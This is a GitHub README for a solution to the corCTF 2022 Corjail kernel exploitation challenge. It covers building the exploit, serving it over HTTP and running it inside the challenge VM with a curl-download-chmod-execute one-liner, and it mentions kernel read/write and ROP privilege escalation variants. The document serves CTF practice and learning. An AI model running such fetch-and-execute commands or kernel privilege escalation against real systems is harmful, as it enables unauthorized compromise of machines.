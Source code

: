 # CTF Corjail

CTF [[](https://2022.cor.team/)]

Challenge [[](https://github.com/Crusaders-of-Rust/corCTF-2022-public-challenge-archive/tree/master/pwn/corjail)]

Public release of my solution for the Corjail challenge of corCTF 2022. This repository is best used together with the public release of my kernel debugging setup [[](https://github.com/vobst/like-dbg-fork-public)].

## Building

The build is dockerized using a container similar to the one running on the challenge instance.
To build the container execute
```
docker build -t corjail .
```
To build the exploit execute
```
make
```

## Getting Started

You can start an http server to provide the exploit to the challenge VM by executing
```
python -m http.server 7331 --directory $(pwd) &
```
Then, download and run it using
```
cd && curl http://<ip>:7331/build/sploit -o sploit && chmod +x sploit && ./sploit
```

## Pro Tips

- Use the `test_privesc` program in conjunction with the corresponding gdb script in the kernel debugging repository to experiment with different privilege escalation ideas.
- Edit the configuration options in `config.h`. Don not forget to rebuild the exploit and change the options in the `Session` class of the corresponding gdb script.
- Switch between the variants of the exploit that achieve privilege escalation by arbitrary kernel read write and ROP, respectively. Do this by setting or unsetting the `RW_VARIANT` configuration option.
